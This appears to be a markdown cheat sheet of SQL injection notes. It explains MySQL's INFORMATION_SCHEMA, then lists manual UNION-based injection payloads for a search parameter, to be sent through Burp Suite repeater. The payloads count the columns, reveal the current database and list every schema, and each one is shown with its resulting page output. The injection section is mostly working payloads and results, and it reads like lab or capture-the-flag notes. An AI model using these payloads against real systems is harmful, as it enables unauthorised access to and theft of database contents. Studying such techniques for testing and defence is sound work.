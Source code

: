 * [`sqlmap`](#sqlmap)
* [INFORMATION_SCHEMA](#information_schema)
  * [INFORMATION_SCHEMA Tables](#information_schema-tables)
* [Manual Methods](#manual-methods)
  * [enumerate fields of search query](#enumerate-fields-of-search-query)
  * [show database](#show-database)

# `sqlmap`

# INFORMATION_SCHEMA
Refs:
* <https://www.cmi.ac.in/~madhavan/courses/databases10/mysql-5.0-reference-manual/information-schema.html#schemata-table>

INFORMATION_SCHEMA provides access to database metadata.

Metadata is data about the data, such as the name of a database or table, the data type of a column, or access privileges. INFORMATION_SCHEMA is the information database, the place that stores information about all the other databases that the MySQL server maintains. Inside INFORMATION_SCHEMA there are several read-only tables. They are actually views, not base tables, so there are no files associated with them.
## INFORMATION_SCHEMA Tables
* <https://dev.mysql.com/doc/refman/8.0/en/columns-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/schemata-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/st-units-of-measure-table.html>

# Manual Methods
## enumerate fields of search query
In burpsuite, go to repeater mode and keep on increasing the numbers till the fields of search query gets printed on the webpage
```
search=killer' UNION SELECT 1,2,3,4,5,6-- -
```
```
<h3>Search results </h3>
ID: 1<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## show database
```
search=killer' UNION SELECT database(),2,3,4,5,6-- -
```
```
<h3>Search results </h3> 
ID: Staff<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
### using INFORMATION_SCHEMA
```
search=killer' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
```
<h3>Search results </h3> 
ID: information_schema<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: Staff<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
